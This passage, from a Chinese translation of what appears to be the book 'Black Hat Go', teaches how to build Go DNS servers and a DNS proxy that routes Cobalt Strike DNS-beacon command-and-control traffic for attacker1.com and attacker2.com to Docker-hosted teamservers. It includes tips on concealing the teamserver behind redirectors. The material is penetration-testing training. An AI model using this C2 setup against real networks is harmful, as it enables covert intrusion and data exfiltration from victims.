    "github.com/miekg/dns"
)

func main() {
 ❶ dns.HandleFunc(".", func(w dns.ResponseWriter, req *dns.Msg) {
     ❷ var resp dns.Msg
        resp.SetReply(req)
        for _, q := range req.Question {
         ❸ a := dns.A{
                Hdr: dns.RR_Header{
                    Name:   q.Name,
                    Rrtype: dns.TypeA,
                    Class:  dns.ClassINET,
                    Ttl:    0,
                },
                A: net.ParseIP("127.0.0.1").To4(),
 }
        ❹ resp.Answer = append(resp.Answer, &a)
        }
     ❺ w.WriteMsg(&resp)
    })
 ❻ log.Fatal(dns.ListenAndServe(":53", "udp", nil))
}
```

*清单 5-5：编写一个 DNS 服务器 (*[/ch-5/a_server/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/a_server/main.go)*)*

服务器代码以调用`HandleFunc()` ❶开始；它看起来与`net/http`包非常相似。该函数的第一个参数是一个查询模式，用于匹配请求。你将使用此模式告诉 DNS 服务器哪些请求将由提供的函数处理。通过使用句点，你在告诉服务器你在第二个参数中提供的函数将处理所有请求。

传递给 `HandleFunc()` 的下一个参数是一个包含处理程序逻辑的函数。此函数接收两个参数：`ResponseWriter` 和请求本身。在处理程序内，首先创建一个新消息并设置回复 ❷。接下来，使用 A 记录为每个问题创建一个答案，这个 A 记录实现了 `RR` 接口。根据你要查找的答案类型，这部分会有所不同 ❸。A 记录的指针通过 `append()` ❹ 被附加到响应的 `Answer` 字段中。完成响应后，可以使用 `w.WriteMsg()` ❺ 将此消息写入调用客户端。最后，调用 `ListenAndServe()` ❻ 启动服务器。此代码将所有请求解析为 IP 地址 127.0.0.1。

一旦服务器编译并启动，你可以使用 `dig` 来测试它。确认你查询的主机名解析到 127.0.0.1。这表明它按照预期工作。

```
$ dig @localhost facebook.com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> @localhost facebook.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 33594
;; flags: qr rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;facebook.com.                   IN        A

;; ANSWER SECTION:
facebook.com.             0      IN        A      127.0.0.1

;; Query time: 0 msec
;; SERVER: 127.0.0.1#53(127.0.0.1)
;; WHEN: Sat Dec 19 13:13:45 MST 2020
;; MSG SIZE  rcvd: 58
```

请注意，服务器需要使用 sudo 或 root 账户启动，因为它监听的是特权端口——端口 53。如果服务器无法启动，你可能需要终止 `dnsmasq`。

#### 创建 DNS 服务器和代理

*DNS 隧道*，一种数据外泄技术，可以是从具有严格出口控制的网络中建立 C2 通道的绝佳方式。如果使用授权的 DNS 服务器，攻击者可以通过组织自己的 DNS 服务器路由并通过互联网出去，而无需直接连接到他们自己的基础设施。尽管速度较慢，但很难防御。许多开源和专有的载荷都能执行 DNS 隧道，其中之一是 Cobalt Strike 的 Beacon。在本节中，你将编写自己的 DNS 服务器和代理，并学习如何使用 Cobalt Strike 对 DNS 隧道 C2 载荷进行复用。

##### 配置 Cobalt Strike

如果你曾使用过 Cobalt Strike，你可能会注意到，默认情况下，*teamserver* 监听端口 53。正因如此，根据文档的建议，系统上应该只运行一个服务器，保持一对一的比例。这对于中型到大型团队来说可能会成为问题。例如，如果你有 20 个团队对 20 个不同的组织进行进攻性渗透，建立 20 台能运行 teamserver 的系统可能会很困难。这个问题不仅限于 Cobalt Strike 和 DNS，它也适用于其他协议，包括 HTTP 载荷，如 Metasploit Meterpreter 和 Empire。虽然你可以在多个完全独立的端口上建立监听器，但通过常见端口（如 TCP 80 和 443）传出的流量可能性更大。那么问题就来了，如何让你和其他团队共享一个端口并路由到多个监听器呢？答案当然是使用代理。回到实验室。

**注意**

*在实际的攻击行动中，你可能希望通过多层次的欺骗、抽象和转发来掩盖你的 teamserver 位置。这可以通过使用 UDP 和 TCP 转发，通过各种托管服务提供商的辅助小型服务器来实现。主 teamserver 和代理也可以运行在不同的系统上，将 teamserver 集群部署在一个大系统上，配备大量的内存和 CPU。*

让我们在两个 Docker 容器中运行两个 Cobalt Strike 的 teamserver 实例。这使得服务器可以监听端口 53，并让每个 teamserver 拥有他们自己的系统，进而拥有自己的 IP 栈。你将使用 Docker 内建的网络机制，将 UDP 端口从容器映射到主机。在开始之前，下载一个 Cobalt Strike 的试用版本，访问 *[`trial.cobaltstrike.com/`](https://trial.cobaltstrike.com/)*。按照试用注册指引操作后，你应该会在下载目录中获得一个新的 *tarball* 文件。现在，你准备好启动 teamserver 了。

在终端窗口中执行以下命令启动第一个容器：

```
$ docker run --rm❶ -it❷ -p 2020:53❸ -p 50051:50050❹ -v❺ full path to
cobalt strike download:/data❻ java❼ /bin/bash❽
```

这个命令执行了多个操作。首先，你告诉 Docker 在容器退出后移除它 ❶，并且希望在启动后与其进行交互 ❷。接下来，你将主机系统的端口 2020 映射到容器的端口 53 ❸，将端口 50051 映射到端口 50050 ❹。接着，你将包含 Cobalt Strike 压缩包的目录 ❺ 映射到容器的 data 目录 ❻。你可以指定任何目录，Docker 会为你创建它。最后，提供你想使用的镜像（在此例中为 Java） ❼ 以及你希望在启动时执行的命令 ❽。这将让你在运行中的 Docker 容器中获得一个 bash shell。

进入 Docker 容器后，通过执行以下命令启动 teamserver：

```
$ cd /root
$ tar -zxvf /data/cobaltstrike-trial.tgz
$ cd cobaltstrike
$ ./teamserver <IP address of host> <some password>
```

提供的 IP 地址应该是你实际虚拟机的 IP 地址，而不是容器的 IP 地址。

接下来，在 Ubuntu 主机上打开一个新的终端窗口，进入包含 Cobalt Strike 压缩包的目录。执行以下命令安装 Java 并启动 Cobalt Strike 客户端：

```
$ sudo add-apt-repository ppa:webupd8team/java
$ sudo apt update
$ sudo apt install oracle-java8-installer
$ tar -zxvf cobaltstrike-trial.tgz
$ cd cobaltstrike
$ ./cobaltstrike
```

Cobalt Strike 的图形界面应已启动。在清除试用信息后，将 teamserver 端口改为 50051，并相应设置你的用户名和密码。

你已经成功启动并连接到完全在 Docker 中运行的服务器！现在，让我们通过重复相同的过程启动第二个服务器。按照之前的步骤启动一个新的 teamserver。这次，你需要映射不同的端口。将端口递增一个数字应该能解决问题，这也很有逻辑性。在一个新的终端窗口中，执行以下命令来启动一个新的容器，并监听端口 2021 和 50052：

```
$ docker run --rm -it -p 2021:53 -p 50052:50050-v full path to cobalt strike
download:/data java /bin/bash
```

从 Cobalt Strike 客户端创建一个新连接，通过选择 **Cobalt Strike** ▶ **New Connection**，修改端口为 50052，并选择 **Connect**。连接后，你应该能在控制台底部看到两个标签页，你可以用它们在服务器之间切换。

现在，您已经成功连接到两个团队服务器，应该开始启动两个 DNS 监听器。要创建监听器，从菜单中选择**配置监听器**；其图标看起来像一副耳机。进入后，选择底部菜单中的**添加**，以打开新监听器窗口。输入以下信息：

+   名称：DNS 1

+   负载：windows/beacon_dns/reverse_dns_txt

+   主机：<主机的 IP 地址>

+   端口：0

在此示例中，端口设置为 80，但您的 DNS 负载仍然使用端口 53，因此不用担心。端口 80 专门用于混合负载。图 5-2 显示了新监听器窗口以及您应该输入的信息。



*图 5-2：添加新监听器*

接下来，系统会提示您输入用于信标的域名，如图 5-3 所示。

输入域名*attacker1.com*作为 DNS 信标，这应是您的负载信标的目标域名。您应该看到一条消息，表示新监听器已启动。在另一个团队服务器中重复此过程，使用 DNS 2 和*attacker2.com*。在开始使用这两个监听器之前，您需要编写一个中介服务器来检查 DNS 消息并将其正确路由。基本上，这就是您的代理。



*图 5-3：添加 DNS 信标的域名*

##### 创建 DNS 代理

您在本章中使用的 DNS 包使得编写中介功能变得容易，您在之前的部分中已经使用了其中的一些函数。您的代理需要能够执行以下操作：

+   创建一个处理程序函数来接收传入的查询

+   检查查询中的问题并提取域名

+   确定与域名相关联的上游 DNS 服务器

+   与上游 DNS 服务器交换问题并将响应写入客户端

您的处理程序函数可以写成处理*attacker1.com*和*attacker2.com*作为静态值，但这样不具备可维护性。相反，您应该从程序外部的资源（如数据库或配置文件）查找记录。以下代码通过使用`domain,server`的格式来实现这一点，其中列出了传入的域名和用逗号分隔的上游服务器。要启动您的程序，创建一个函数来解析包含此格式记录的文件。清单 5-6 中的代码应写入一个名为*main.go*的新文件。

```
   package main

   import (
       "bufio"
       "fmt"
       "os"
       "strings"
   )

❶ func parse(filename string) (map[string]string❷, error) {
       records := make(map[string]string)
       fh, err := os.Open(filename)
       if err != nil {
           return records, err
       }
       defer fh.Close()
       scanner := bufio.NewScanner(fh)
       for scanner.Scan() {
           line := scanner.Text()
           parts := strings.SplitN(line, ",", 2)
           if len(parts) < 2 {
               return records, fmt.Errorf("%s is not a valid line", line)
           }
           records[parts[0]] = parts[1]
       }
       return records, scanner.Err()
   }

   func main() {
       records, err := parse("proxy.config")
       if err != nil {
           panic(err)
       }
       fmt.Printf("%+v\n", records)
   }
```

*清单 5-6：编写 DNS 代理 (*[/ch-5/dns_proxy/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/dns_proxy/main.go)*)*

使用这段代码，您首先定义一个函数❶，该函数解析包含配置信息的文件，并返回一个`map[string]string`❷。您将使用这个映射来查找传入的域名并获取上游服务器。

在终端窗口中输入以下代码的第一个命令，它会将`echo`后面的字符串写入名为*proxy.config*的文件中。接下来，你应该编译并执行*dns_proxy.go*。

```
$ echo 'attacker1.com,127.0.0.1:2020\nattacker2.com,127.0.0.1:2021' > proxy.config
$ go build
$ ./dns_proxy
map[attacker1.com:127.0.0.1:2020 attacker2.com:127.0.0.1:2021]
```

你在这里看到的是什么？输出是 teamserver 域名与 Cobalt Strike DNS 服务器监听端口之间的映射。回顾一下，你将端口 2020 和 2021 映射到了你两个不同 Docker 容器中的端口 53。这是一种快速简便的方法，帮助你为你的工具创建基础配置，以便你不必将其存储在数据库或其他持久存储机制中。

定义了记录映射之后，你现在可以编写处理函数了。让我们优化一下你的代码，将以下内容添加到你的`main()`函数中。它应该在解析配置文件之后执行。

```
❶ dns.HandleFunc(".",func(w dns.ResponseWriter, req *dns.Msg)❷ {
    ❸ if len(req.Question) < 1 {
           dns.HandleFailed(w, req)
           return
       }
    ❹ name := req.Question[0].Name
       parts := strings.Split(name, ".")
       if len(parts) > 1 {
        ❺ name = strings.Join(parts[len(parts)-2:], ".")
       }
    ❻ match, ok:= records[name]
       if !ok {
           dns.HandleFailed(w, req)
           return
       }
    ❼ resp, err := dns.Exchange(req, match)
       if err != nil {
           dns.HandleFailed(w, req)
           return
       }
    ❽ if err := w.WriteMsg(resp); err != nil {
           dns.HandleFailed(w, req)
           return
       }
   })
❾ log.Fatal(dns.ListenAndServe(":53", "udp", nil))
```

首先，调用`HandleFunc()`并传入一个句点，处理所有传入的请求❶，并定义一个*匿名函数*❷，即一个你不打算重用的函数（它没有名称）。当你不打算重用一段代码时，这是一种良好的设计。如果你打算重用它，你应该将其声明为并调用一个*命名函数*。接下来，检查传入的问答切片，确保至少提供了一个问题❸，如果没有，调用`HandleFailed()`并提前返回退出函数。这是处理程序中使用的一个模式。如果至少有一个问题存在，你可以安全地从第一个问题中提取请求的名称❹。通过句点拆分名称是必须的，以提取域名。拆分名称时结果不应小于 1，但你仍然应该检查它以确保安全。你可以通过使用切片操作符从切片❺中获取切片的*尾部*——即切片的最后几个元素。现在，你需要从记录映射中检索上游服务器。

从映射中检索值❻可以返回一个或两个变量。如果键（在我们的例子中是域名）存在于映射中，它会返回相应的值。如果域名不存在，它会返回一个空字符串。你可以检查返回的值是否为空字符串，但当你开始处理更复杂的类型时，这种方法效率低下。相反，声明两个变量：第一个是键对应的值，第二个是一个布尔值，若找到该键则返回`true`。在确保匹配后，你可以与上游服务器交换请求❼。你只需确保你收到请求的域名已经在你的持久存储中配置好。接下来，将来自上游服务器的响应写入客户端❽。定义好处理函数后，你可以启动服务器❾。最后，你现在可以构建并启动代理。

启动代理后，你可以使用两个 Cobalt Strike 监听器来进行测试。首先，创建两个无阶段的可执行文件。从 Cobalt Strike 的顶部菜单中，点击看起来像齿轮的图标，然后将输出更改为**Windows Exe**。对每个团队服务器重复此过程。将这些可执行文件复制到你的 Windows 虚拟机，并执行它们。你的 Windows 虚拟机的 DNS 服务器应为你的 Linux 主机的 IP 地址，否则测试将无法正常工作。

可能需要一两分钟，但最终你应该会在每个团队服务器上看到一个新的信标。任务完成！

##### 最后润色

这很好，但当你需要更改你的团队服务器或重定向器的 IP 地址，或者你需要添加一个记录时，你也需要重新启动服务器。你的信标可能会在这种操作中幸存下来，但为什么要冒这个险呢，毕竟有一个更好的选项？你可以使用进程信号告诉正在运行的程序需要重新加载配置文件。这是我从 Matt Holt 那里学到的一个技巧，他在优秀的 Caddy Server 中实现了这一点。列表 5-7 显示了完整的程序，其中包含进程信号逻辑：

```
package main

import (
    "bufio"
    "fmt"
    "log"
    "os"
    "os/signal"
    "strings"
    "sync"
    "syscall"

    "github.com/miekg/dns"
)

func parse(filename string) (map[string]string, error) {
    records := make(map[string]string)
    fh, err := os.Open(filename)
    if err != nil {
        return records, err
    }
    defer fh.Close()
    scanner := bufio.NewScanner(fh)
    for scanner.Scan() {
        line := scanner.Text()
        parts := strings.SplitN(line, ",", 2)
 if len(parts) < 2 {
            return records, fmt.Errorf("%s is not a valid line", line)
        }
        records[parts[0]] = parts[1]
    }
    log.Println("records set to:")
    for k, v := range records {
        fmt.Printf("%s -> %s\n", k, v)
    }
    return records, scanner.Err()
}

func main() {
 ❶ var recordLock sync.RWMutex

    records, err := parse("proxy.config")
    if err != nil {
        panic(err)
    }

    dns.HandleFunc(".", func(w dns.ResponseWriter, req *dns.Msg) {
        if len(req.Question) == 0 {
            dns.HandleFailed(w, req)
            return
        }
        fqdn := req.Question[0].Name
        parts := strings.Split(fqdn, ".")
        if len(parts) >= 2 {
            fqdn = strings.Join(parts[len(parts)-2:], ".")
        }
     ❷ recordLock.RLock()
        match := records[fqdn]
     ❸ recordLock.RUnlock()
        if match == "" {
            dns.HandleFailed(w, req)
            return
        }
        resp, err := dns.Exchange(req, match)
        if err != nil {
            dns.HandleFailed(w, req)
            return
        }
        if err := w.WriteMsg(resp); err != nil {
            dns.HandleFailed(w, req)
            return
        }
    })

 ❹ go func() {
     ❺ sigs := make(chan os.Signal, 1)
     ❻ signal.Notify(sigs, syscall.SIGUSR1)

        for sig := range sigs {
         ❼ switch sig {
 case syscall.SIGUSR1:
                log.Println("SIGUSR1: reloading records")
            ❽ recordLock.Lock()
                parse("proxy.config")
             ❾ recordLock.Unlock()
            }
        }
    }()

    log.Fatal(dns.ListenAndServe(":53", "udp", nil))
}
```

*列表 5-7: 你完成的代理 (*[/ch-5/dns_proxy/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-5/dns_proxy/main.go)*)*

有一些补充内容。由于程序将修改一个可能正在被并发 goroutines 使用的映射，因此你需要使用互斥锁来控制访问。^(1) 一个*互斥锁*可以防止敏感代码块的并发执行，允许你锁定和解锁访问。在这种情况下，你可以使用`RWMutex` ❶，它允许任何 goroutine 在不锁住其他 goroutine 的情况下读取，但在写入发生时会锁住其他 goroutine。或者，如果你在资源上没有使用互斥锁来实现 goroutines，那么就会引入交错执行，这可能导致竞争条件，甚至更糟。

在访问处理器中的映射之前，调用`RLock` ❷来读取一个值到`match`；读取完成后，调用`RUnlock` ❸释放映射，允许下一个 goroutine 继续操作。在一个匿名函数中，它运行在一个新的 goroutine ❹ 中，你开始了监听信号的过程。这个过程是通过 `os.Signal` 类型的通道 ❺ 来完成的，该通道通过调用 `signal.Notify()` ❻ 来提供，并与实际的信号一起传递给 `SIGUSR1` 通道，`SIGUSR1` 是一个预留用于任意用途的信号。在信号的循环中，使用 `switch` 语句 ❼ 来识别接收到的信号类型。你只配置了一个信号来监控，但未来你可能会改变这一点，所以这是一个合适的设计模式。最后，在重新加载运行配置之前，使用 `Lock()` ❽ 来阻塞任何可能尝试从记录映射中读取的 goroutine。使用 `Unlock()` ❾ 来继续执行。

通过启动代理并在现有的团队服务器中创建一个新的监听器来测试此程序。使用域名*attacker3.com*。代理运行时，修改*proxy.config*文件，并添加一行将该域指向你的监听器。你可以通过使用`kill`命令来让进程重新加载其配置，但首先使用`ps`和`grep`来识别进程 ID。

```
$  ps -ef | grep proxy
$  kill -10 PID
```

代理应该会重新加载。通过创建并执行一个新的无阶段可执行文件来进行测试。现在代理应该已经功能完备并准备投入生产环境。

### 总结

虽然这一章已经结束，但你仍然有无穷的可能性可以探索你的代码。例如，Cobalt Strike 可以以混合方式运行，使用 HTTP 和 DNS 进行不同的操作。为了做到这一点，你需要修改你的代理，使其对 A 记录返回监听器的 IP；你还需要将额外的端口转发到你的容器。在下一章中，你将深入探讨复杂的 SMB 和 NTLM 的内容。现在，去征服吧！
